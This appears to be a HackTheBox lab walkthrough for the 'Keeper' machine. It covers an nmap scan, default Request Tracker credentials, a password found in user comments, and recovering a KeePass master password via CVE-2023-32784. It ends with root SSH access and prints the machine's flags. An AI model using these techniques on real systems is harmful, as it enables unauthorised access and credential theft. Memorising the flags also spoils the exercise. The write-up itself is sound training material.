 
# HackTheBox Walkthrough - Machine: Keeper

**Target IP**: 10.129.229.41  
**Difficulty**: Easy  
**Objective**: Gain access by exploiting KeePass vulnerability and privilege escalation.  
![ssh](img/ssh.png)

---

## Task 1: How many open TCP ports are listening on Keeper?

Nmap results:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```
![nmap](img/nmap.png)

**Answer**: `2`

---

## Task 2: What is the default password for the default user on Request Tracker (RT)?

![loginpage](img/loginpage.png)  
![google_reserach](img/google_reserach.png)

Searched for default credentials:  
**Username**: root  
**Password**: password

**Answer**: `password`  
![logined](img/logined.png)

---

## Task 3: Besides root, what other user is in RT?

Dashboard → Admin → Users  
Found another user:  
![userlist](img/userlist.png)

- **Username**: lnorgaard  
- **Real Name**: Lise Nørgaard

**Answer**: `lnorgaard`

---

## Task 4: What is the lnorgaard user's password on Keeper?

Checked user info and found in "Comments about this user":  
![password](img/password.png)

> Initial password set to Welcome2023!

**Answer**: `Welcome2023!`

---

## Submit User Flag

SSH as lnorgaard:
```bash
ssh lnorgaard@10.129.229.41
Password: Welcome2023!
```
![ssh](img/ssh_login.png)

```bash
cat user.txt
```
![userflag](img/userflag.png)

**User Flag**: `55372721174d858204e1c2fa90933e97`

---

## Task 6: What is the 2023 CVE ID for KeePass memory dump vulnerability?

![mail](img/mail.png)

Google search revealed:  
![CVE](img/CVE.png)

> CVE-2023-32784

**Answer**: `CVE-2023-32784`

---

## Task 7: What is the master password for passcodes.kdbx?

Used KeePass memory dump analysis tool:  
![github](img/github.png)

```bash
python3 exploit.py -f KeePassDumpFull.dmp
```
![cream](img/cream.png)

Resulted password:  
> `rødgrød med fløde`

**Answer**: `rødgrød med fløde`

---

## Task 8: What is the first line of the "Notes" section for the entry in the database containing a private SSH key?

Opened database with:
```bash
kpcli --kdb passcodes.kdbx
Password: rødgrød med fløde
```
![kpcli](img/kpcli.png)

Checked:
```bash
show 0
```
![privatekeyt](img/privatekeyt.png)

**First line in Notes**:  
> `PuTTY-User-Key-File-3: ssh-rsa`

---

## Submit Root Flag

Used extracted private key to SSH as root:
```bash
chmod 600 keeper.ppk
puttygen keeper.ppk -O private-openssh -o id_rsa_keeper
ssh -i id_rsa_keeper root@10.129.229.41
cat /root/root.txt
```
![root](img/root.png)  
![rootflag](img/rootflag.png)

**Root Flag**: `5fd606db0349584fae3155c7bf7468fc`

---
